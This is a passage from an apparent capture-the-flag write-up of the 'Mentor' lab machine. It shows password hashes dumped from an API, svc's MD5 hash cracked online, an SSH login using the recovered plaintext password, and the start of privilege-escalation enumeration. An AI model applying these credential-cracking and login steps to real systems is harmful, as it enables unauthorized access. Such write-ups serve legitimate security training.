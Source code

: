 I’ll have to disconnect my shell, as the website doesn’t seem to load when I have it connected. But then I can hit the API, and it gives the hashes:

![image-20230301154814543](https://0xdfimages.gitlab.io/img/image-20230301154814543.png)

### Shell over SSH

#### Crack Hash

The hash for svc is a known MD5 that loads in [CrackStation](https://crackstation.net/):

![image-20230301154956271](https://0xdfimages.gitlab.io/img/image-20230301154956271.png)

#### SSH

With that password, I can SSH to the host as svc:

```

oxdf@hacky$ sshpass -p '123meunomeeivani' ssh svc@10.10.11.193
Warning: Permanently added '10.10.11.193' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)
...[snip]...
svc@mentor:~$

```

## Shell as root

### Enumeration

#### Home Dirs

svc’s home directory is pretty empty:

```

svc@mentor:~$ ls -la
total 28
drwxr-x--- 4 svc  svc  4096 Nov 11 17:41 .
drwxr-xr-x 4 root root 4096 Jun 10  2022 ..
lrwxrwxrwx 1 root root    9 Nov 10 14:28 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc  3771 Jun  7  2022 .bashrc
drwx------ 3 svc  svc  4096 Jun 12  2022 .cache
drwxrwxr-x 5 svc  svc  4096 Jun 12  2022 .local
-rw-r--r-- 1 svc  svc   807 Jun  7  2022 .profile
-rw-r----- 1 root svc    33 Mar  1 19:27 user.txt

```

There is a james user on the box:

```

svc@mentor:/home$ ls
james  svc

```
